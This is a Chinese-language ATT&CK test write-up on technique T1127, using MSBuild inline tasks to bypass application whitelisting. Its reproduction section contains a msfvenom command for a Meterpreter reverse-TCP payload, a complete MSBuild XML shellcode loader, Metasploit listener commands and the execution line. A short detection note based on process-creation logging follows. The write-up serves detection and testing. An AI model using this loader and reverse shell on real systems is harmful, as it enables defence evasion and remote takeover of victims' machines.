 # T1127-Win-使用Msbuild.exe执行payload（白名单）

## 来自ATT&CK的描述

MSBuild.exe（Microsoft Build Engine）是Visual Studio使用的软件构建平台。它采用XML格式的项目文件，定义了各种平台的构建要求和配置。

攻击者可能会使用MSBuild通过受信任的Windows实用程序来代理执行代码。.NET 4中引入的MSBuild内联任务功能允许将C＃代码插入到XML项目文件中。内联任务MSBuild将编译并执行内联任务。MSBuild.exe是一个微软签名的二进制文件，因此当它以这种方式使用时，它可以执行任意代码并绕过配置为允许MSBuild.exe执行的应用白名单防御。

## 测试案例

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

说明：Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe`

## 检测日志

Windows 安全日志（需要自行配置）据称可以绕过360，待确认

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### MSF生成载荷

```bash
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

![载荷](https://img-blog.csdnimg.cn/20200413135116398.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### XML文件设置

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
    <Target Name="Hello">
      <ClassExample />
    </Target>
    <UsingTask
      TaskName="ClassExample"
      TaskFactory="CodeTaskFactory"
      AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
      <Task>

        <Code Type="Class" Language="cs">
        <![CDATA[
    using System;
    using System.Runtime.InteropServices;
    using Microsoft.Build.Framework;
    using Microsoft.Build.Utilities;
    public class ClassExample :  Task, ITask
    {
      private static UInt32 MEM_COMMIT = 0x1000;
      private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
      [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
        UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
      [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
        UInt32 lpThreadAttributes,
        UInt32 dwStackSize,
        UInt32 lpStartAddress,
        IntPtr param,
        UInt32 dwCreationFlags,
        ref UInt32 lpThreadId
        );
      [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
        IntPtr hHandle,
        UInt32 dwMilliseconds
        );
      public override bool Execute()
      {
        byte[] shellcode = new byte[] {
你的payload};

          UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
      MEM_COMMIT, PAGE_EXECUTE_READWRITE);
          Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
          IntPtr hThread = IntPtr.Zero;
          UInt32 threadId = 0;
          IntPtr pinfo = IntPtr.Zero;
          hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
          WaitForSingleObject(hThread, 0xFFFFFFFF);
          return true;
      }
    }
        ]]>
        </Code>
      </Task>
    </UsingTask>
  </Project>
```

![XML文件设置](https://img-blog.csdnimg.cn/20200413135530841.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 设置监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

![监听](https://img-blog.csdnimg.cn/20200413140326808.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 靶机执行payload

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.xml
```

![加载payload](https://img-blog.csdnimg.cn/20200413140707313.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 查看会话

![反弹会话](https://img-blog.csdnimg.cn/20200413140810400.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 测试留痕

![日志留痕](https://img-blog.csdnimg.cn/20200413140937397.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1127

<https://attack.mitre.org/techniques/T1127/>

利用msbuild.exe绕过应用程序白名单安全机制的多种姿势

<https://www.freebuf.com/articles/network/197706.html>

GreatSCT|MSF|白名单

<http://www.secist.com/archives/6082.html>

对亮神基于白名单Msbuild.exe执行payload第一季复现

<https://blog.csdn.net/ws13129/article/details/89736941>

检测白名单Msbuild.exe执行payload

<https://blog.csdn.net/qq_36334464/article/details/105487176>

基于白名单执行payload

<https://www.jianshu.com/p/cdb1867c6abb>
